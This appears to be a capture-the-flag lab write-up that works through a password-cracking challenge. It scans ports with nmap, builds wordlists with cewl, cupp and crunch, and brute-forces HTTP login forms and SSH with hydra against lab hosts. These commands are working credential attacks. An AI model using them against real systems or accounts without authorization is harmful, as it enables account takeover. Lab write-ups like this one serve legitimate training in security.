


Step 1: Nmap Scan

Command-> `nmap -Pn -p- <ip> -T4`

Performing nmap scan gave us few open ports as shown below

performing service scan showed us their services and versions and turned out all are running Python server

lets try accessing port `5000` first.

Step 2: Security Assessment of passwords

Upon visiting the webpage we see levels and we are on the first level.
The goal is to assess password for the services mentioned

Level 1 mentions Firewall running on port `5001` and its password has to cracked.

Step 3: Level 1

We see the firewall console and the username and passwords have placeholder on it. Admin seems to be the username and the password placeholder suggests its length being 8 characters or so.

The reliable option seems to be using Hydra to Brute Force 

so we use the command-> `hydra -l admin -P /usr/share/wordlists/rockyou.txt <ip> http-post-form -F "/:username=^USER^&password=^PASS^:F=Invalid credentials" -s 5001`
and we found the password:
`<image>`
turned out the 8 character guess was wrong but anyways.

Step 4: Level 2

So for This Level we see a job posting webpage and according to challenge Marco used company specific keywords for the password. User is given as Marco and the password we have to found using company keywords.

so we use Cewl to create wordlist based on terms found on the target webpage:

`cewl -d 2 -m 3 --lowercase --with-numbers -w cewl_words.txt http://<ip>:5002/`

Then we run hydra command:

`hydra -l marco -P cewl_words.txt 10.48.149.236 http-post-form  "/login:username=^USER^&password=^PASS^:F=Invalid credentials" -s 5002`

Step 5: Level 3

we see that password of this level is based on marc's personal details that we had access to at the end of level 2. So here it seems a combination of his names and such will be the password

so for this I found a tool called cupp -> `https://github.com/Mebus/cupp.git`
so `git clone https://github.com/Mebus/cupp.git`
`cd cupp` and then `python3 cupp -i`

then again run hydra command:

`hydra -l marco -P cupp/marco.txt 10.48.149.236 http-post-form  "/login:username=^USER^&password=^PASS^:F=Invalid" -s 5003`

Step 6: Level 4

Here we are on `social.thm:5003` after completing level 3 and we have to find filename of Marco's  profile pic. After clicking on `open in new tab` we see that the profile picture uploaded by Marco is `<hash>.png` so we just crack the hash using `crackstation` or other tools like Hashcat or JohnTheRipper.

Step 7: Level 5

So according to a post of Marco on `social.thm:5003` he seems to follow a password pattern that he has revealed. So now time to crack the password. 

So Company specific terms we already have from `Level 2`, 
rest are some patterns that we follows and it seems similar to how a password policy might work and how some would still neglect it and try to keep it as simple as possible. So for this scenario 
we are going to apply the pattern.

So we see few keywords around his posts that we could use as the original wordlist is longer and would be harder to generate those patterns.
So we use the following command using crunch-> `crunch 13 13 -t Security20%%! -o output_txt`
here the word chosen is "Security" with the first letter being capital and placeholders for 2 digits that could vary and the exclamation mark that follows. This ensures the pattern is matched.

Using hydra we try to crack the password-> `hydra -l marco -P output_txt <ip> -t 4 ssh`

and the password is found.

